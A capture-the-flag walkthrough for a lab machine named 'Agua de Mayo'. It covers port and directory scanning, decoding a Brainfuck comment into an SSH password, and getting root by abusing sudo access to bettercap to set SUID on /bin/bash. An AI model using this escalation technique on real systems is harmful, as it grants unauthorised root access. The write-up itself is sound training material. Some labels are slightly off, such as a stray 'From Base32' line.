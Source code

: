 # Agua de Mayo

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

![alt text](Imagenes/Agua_1.png)

```ruby
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->

```
From Base32
 It seems we have encountered Brainfuck code, so we need a Brainfuck to ASCII translator. This word appears, which could be a possible password

```ruby
bebeaguaqueessano
```

![alt text](Imagenes/Agua_2.png)

Now we perform a subdomain enumeration using the tool GoBuster, obtaining the following:

```ruby
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```
![alt text](Imagenes/Agua_3.png)


## Examining the agua_ssh.jpg Image

We download the image and use tools like ExifTool or Steghide to check if there is any secret inside it. However, we do not find anything.

![alt text](Imagenes/Agua_4.png)

## Intrusion

Finally, we will try to authenticate to the SSH service.
``` ruby
user: agua
password: bebeaguaqueessano
```

![alt text](Imagenes/Agua_5.png)


## Privilege Escalation

With the id command, we see that we belong to the lxd group. Possibly, if we exploit this vulnerability, we can escalate privileges.

We will see that we have a file named alpine-v3.13-x86_64-20210218_0139.tar.gz, which makes it almost certain that we should exploit lxd. But no, this is nothing more than a rabbit hole.

![alt text](Imagenes/Agua_6.png)

If we run sudo -l, we see that we can execute /usr/bin/bettercap as root.

```ruby
agua@97aaababd117:~$ sudo -l
Matching Defaults entries for agua on 97aaababd117:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User agua may run the following commands on 97aaababd117:
    (root) NOPASSWD: /usr/bin/bettercap

```

If we open the file with sudo, we can make our bash appear with the following command:

![alt text](Imagenes/Agua_6.png)
```ruby
! chmod +s /bin/bash
```
With this command, we will grant permissions for any user to execute a terminal with root privileges

We close the application and execute the following command in a new terminal:

```ruby
/bin/bash -p
```

Finally, we see that we are the root user.